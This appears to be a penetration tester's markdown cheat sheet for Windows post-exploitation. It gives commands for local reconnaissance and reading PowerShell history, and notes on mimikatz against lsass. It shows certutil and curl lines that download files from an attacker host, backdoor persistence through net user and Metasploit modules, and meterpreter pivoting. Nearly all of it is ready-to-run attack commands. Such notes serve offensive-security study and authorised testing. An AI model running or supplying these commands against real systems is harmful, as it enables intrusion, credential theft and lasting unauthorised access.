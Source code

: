 ##  Information collection

Recently accessed files and executed commands

    type C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 


List of installed patches

    wmic qfe get Caption,Description,HotFixID,InstalledOn
 
 
Network connections

    netstat -r    # route info
    
    netstat -ano  # connections and the PID
    
    route print
    
    
Processes
 
     tasklist
    
    

Arp table

    arp -a
    
[mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

  - Need process with permissions to be able to interact with the running lsass.exe process
    -  ran as NT AUTHORITY\SYSTEM
    -  Must be same arch as the lsass.exe running on the target
    
**Egrees firewall testing:**

 If python is useable: 
 
    https://github.com/stufus/egresscheck-framework
    
 If python is not useable and powershell is: 
 
     powershell.exe Get-Alias -Definition Invoke-WebRequest | Format-Table -AutoSize
     
     powershell.exe curl http://<ip>:<port>/x

-------------------------------------------------------------------------------------

# Exploits

   
Auto finding exploits based on system information and installed patches
 
    cmd.exe /c systeminfo > systeminfo.txt

    ./winpwnSuggester.py --update

    ./winpwnSuggester.py --database YYYY-MM-DD-mssb.xls --systeminfo ~/sysinfo.txt
  
    [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


meterpreter exploit suggester module

    post/recon/local_exploit_suggester
    post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

## Downloading files from attacker machine 

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    Naviage directly through browser 
    
    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

    upload  #If using meterpreter


 ## Maintain persistence

  - Add user
  
        net user <username> <pass> /add

  - Metasploit
  
        exploit/windows/local/persistence
        
        exploit/windows/local/registry_persistence

        run persistence -h

  - Set a scheduled task


## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
       
## Escalating privilege

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)

# Various other

 Metasploit:
 
   post/winodws/
   
